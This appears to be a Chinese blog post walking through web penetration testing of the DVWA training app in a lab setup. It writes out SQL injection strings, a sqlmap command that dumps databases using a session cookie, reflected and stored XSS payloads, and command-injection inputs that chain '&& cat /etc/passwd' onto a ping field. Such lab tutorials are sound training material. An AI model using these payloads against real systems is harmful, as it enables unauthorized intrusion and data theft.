 ```yaml
---
date: 2019-09-15 19:45:40
layout: post
title: WEB渗透测试--DVWA
subtitle:
description: web渗透测试
image:
optimized_image: src/img/s44.jpg
category: web基础
tags:
  - web
  - DVWA
author: thiagorossener
---
```

##### 测试环境
测试平台环境:<br>
靶机：windows7 64bit<br>
攻击机：Linux Ubuntu 14 +windows 7<br>
连接拓扑图如下：<br>
<img src="/src/img/webs1.jpg" >

##### SQL注入
URI 中将 id 参数赋值为：‘' or 1=1--'’
服务端执行id变量的值以后导致SQL语句逻辑改变，直接在页面上回显示了所有的id。
如下：
<img  src="/src/img/s2.png" >
再将 URI 中 id 参数赋值为：‘1' and 1=2 union select version(),database() -- ' ’
回显结果中显示了 mysql 数据库的版本号和数据库名。
如下：
<img src="/src/img/s3.png" >
确定了页面参数存在注入点后，我们使用 sqlmap 进行自动化注入攻击。拿到所有的数
据库。<br>
测试代码：
sqlmap -u "http://10.74.53.107/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id" --cookie "PHPSESSID=t3k9knfgfc90dgklq5elcc3c33; security=low" --dbs --dbms mysql<br>
如下图：
<img  src="/src/img/s4.png" >

##### XSS
反射型 XSS<br>
测试代码：<br>
'><script>alert('欢迎来到web渗透')</script><br>
http://10.74.53.107/vulnerabilities/xss_r/?name=%27%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E#
如下图：<br>
<img  src="/src/img/s5.png" >
存储型 XSS<br>
测试代码如下：<br>
<SCRIPT>alert(‘欢迎来到web渗透’)</SCRIPT>
如下图：
<img  src="/src/img/s6.png" >
<img  src="/src/img/s7.png" >
##### 命令执行
使用&&连接符传递附带命令并执行<br>
测试代码如：<br>
127.0.0.1 && ls<br>
127.0.0.1 && ifconfig<br>
127.0.0.1 && cat /etc/passwd<br>
代码执行了“ping 127.0.0.1”的同时也执行了&&之后的”ls”,”cat /etc/passwd”等指令。<br>
如下图：
<img  src="/src/img/s8.png" >
127.0.0.1 && cat /etc/passwd
<img  src="/src/img/s9.png" >
